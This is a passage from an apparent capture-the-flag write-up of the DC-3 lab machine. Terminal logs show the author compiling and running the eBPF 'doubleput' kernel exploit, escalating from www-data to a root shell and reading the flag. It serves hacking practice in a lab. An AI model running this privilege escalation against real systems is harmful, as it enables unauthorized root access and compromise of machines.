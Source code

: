 Transfer the exploit on the target, compile and run it:

~~~
www-data@DC-3:/tmp$ tar xf exploit.tar
www-data@DC-3:/tmp$ cd ebpf_mapfd_doubleput_exploit
www-data@DC-3:/tmp/ebpf_mapfd_doubleput_exploit$ ./compile.sh
www-data@DC-3:/tmp/ebpf_mapfd_doubleput_exploit$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@DC-3:/tmp/ebpf_mapfd_doubleput_exploit# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
~~~

# Root flag

Now with a root shell, let's get the flag:

~~~
root@DC-3:/tmp/ebpf_mapfd_doubleput_exploit# cd /root
cd /root
root@DC-3:/root# ls -la
ls -la
total 28
drwx------  2 root root 4096 Apr 25 16:27 .
drwxr-xr-x 22 root root 4096 Mar 23  2019 ..
-rw-------  1 root root 1202 Apr 25 16:27 .bash_history
-rw-r--r--  1 root root 3106 Oct 23  2015 .bashrc
-rw-------  1 root root   71 Mar 23  2019 .mysql_history
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-------  1 root root    0 Apr 25 16:27 .viminfo
-rw-r--r--  1 root root  604 Mar 26  2019 the-flag.txt
root@DC-3:/root# cat the-flag.txt
cat the-flag.txt
 __        __   _ _   ____                   _ _ _ _ 
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)
                                                     

Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!!
~~~
